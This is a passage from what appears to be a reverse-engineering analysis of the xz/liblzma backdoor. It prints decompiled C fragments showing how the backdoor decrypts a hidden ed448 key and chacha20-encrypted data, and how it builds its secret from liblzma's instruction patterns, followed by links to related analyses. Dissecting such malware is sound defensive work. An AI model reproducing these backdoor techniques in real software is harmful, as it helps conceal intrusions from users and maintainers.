 ```c
    header_value = modulus.magic_params;
    // decrypt g_ctx->secret_data to get ed448_public_key
    if ( decrypt_ed448_public_key(ed448_public_key, ctx) )
    {
      // decrypt ciphertext using ed448_public_key[:32] as a key
      // and a, b, c as an IV
      if ( chacha20_decrypt(
              modulus.ciphertext.signature,
              n_bytes_count - 16,
              ed448_public_key,
              &header_value,
              modulus.ciphertext.signature,
              ctx->hfuncs) )
      ...
    }
    ...
  }
  ...
}
...
```

`ctx->secret_data` is a byte array of size `0x39` (57); its content is dependent on the backdoor's code.

Below are some of the functions that relate to this field:

```c
Status __fastcall secret_data_update(
        uint8_t *value,
        uint8_t *address,
        uint32_t shift_cursor,
        uint32_t reg2reg_insn_count,
        uint32_t operation_index)
{
  global_ctx *ctx; // rax
  uint8_t *call_site; // [rsp+8h] [rbp-30h] BYREF

  call_site = 0LL;
  ctx = g_ctx;
  if ( g_ctx && !g_ctx->shift_operations[operation_index] )
  {
    g_ctx->shift_operations[operation_index] = 1;
    if ( search_func_start_with(address, &call_site, 0LL, ctx->liblzma_code_start, ctx->liblzma_code_end, FIND_NOP) == Error
      || secret_data_update_with_check(
           call_site,
           g_ctx->liblzma_code_end,
           shift_cursor,
           reg2reg_insn_count,
           value == 0LL) == Error )
    {
      return Error;
    }
    g_ctx->reg2reg_insn_count += reg2reg_insn_count;
  }
  return Success;
}

Status __fastcall secret_data_update_with_check(
        uint8_t *start_ea,
        uint8_t *end_ea,
        uint32_t shift_cursor,
        uint32_t reg2reg_insn_count,
```

[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48
